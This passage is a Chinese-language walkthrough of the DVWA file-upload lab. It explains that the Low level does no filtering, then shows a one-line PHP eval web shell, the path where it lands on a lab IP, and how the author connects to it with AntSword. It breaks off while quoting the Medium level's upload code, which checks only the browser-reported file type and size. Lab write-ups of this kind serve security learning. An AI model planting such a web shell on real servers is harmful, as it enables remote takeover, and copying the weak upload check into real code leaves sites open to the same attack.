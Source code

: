 ```
定义和用法
move_uploaded_file（）函数把上传的文件移动到新位置。
如果成功该函数返回TRUE，如果失败则返回FALSE。

语法
move_uploaded_file(file,newloc)
file:必需。规定要移动的文件。
newloc:必需。规定文件的新位置。
```

通过查看源码可以看到并没有生什么过滤和限制。

**实战**<br />直接上传一个PHP木马文件，我命名为shell.php
```php
<?php @eval($_POST['XMTX']);?>
```
![image-20210413142130491.png](./assets/1655879137804-d2a0f751-aa26-48df-a1f6-86797ca15635.png)

上传成功，并返回给我们一部分路径
```
../../hackable/uploads/shell.php succesfully uploaded!
```

通过返回的文件路径和URL
```
http://192.168.33.10/vulnerabilities/upload/#
```

我们可以得到上传文件的路径
```
http://192.168.33.10/hackable/uploads/shell.php
```

使用蚁剑连接<br />![image-20210413143030477.png](./assets/1655879147019-70914080-a9d0-4aec-8483-ce16f6e7cae6.png)
成功


## 2、Medium
**查看源码**
```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '
<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "
<pre>{$target_path} succesfully uploaded!</pre>";
```